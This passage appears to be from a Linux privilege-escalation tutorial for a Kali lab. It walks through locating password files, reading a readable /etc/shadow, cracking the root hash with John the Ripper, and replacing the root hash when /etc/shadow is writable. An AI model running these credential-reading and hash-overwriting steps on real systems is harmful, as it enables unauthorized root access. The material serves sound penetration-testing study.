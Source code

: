 ```
$ locate password | more 
/etc/passwd
/etc/passwd-
/etc/alternatives/vncpasswd
/etc/alternatives/vncpasswd.1.gz
/etc/exim4/passwd.client
/etc/pam.d/chpasswd
/etc/pam.d/passwd
```

### Weak File Permissions Readable /etc/shadow

The /etc/shadow file contains user password hashes and is usually readable only by the root user.

you can check whether it is readable by normal user or not by the following command

`ls -l /etc/shadow`

View the contents of the /etc/shadow file:

`cat /etc/shadow`

Each line of the file represents a user. A user's password hash (if they have one) can be found between the first and second colons (:) of each line.

Save the root user's hash to a file called hash.txt on your Kali  VM  and use john the ripper to crack it. You may have to unzip /usr/share/wordlists/rockyou.txt.gz first and run the command using sudo depending on your version of Kali:

`john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt`

Switch to the root user, using the cracked password:

`su root`

### Writable /etc/shadow

The /etc/shadow file contains user password hashes and is usually readable only by the root user.

check whether it is writable or not by the following command 
`ls -la /etc/shadow`

Generate a new password hash with a password of your choice:

`mkpasswd -m sha-512 newpasswordhere`  

Edit the /etc/shadow file and replace the original root user's password hash with the one you just generated.

Switch to the root user, using the new password:

`su root`

## 3] Escalation By  SUDO

&nbsp;
&nbsp;

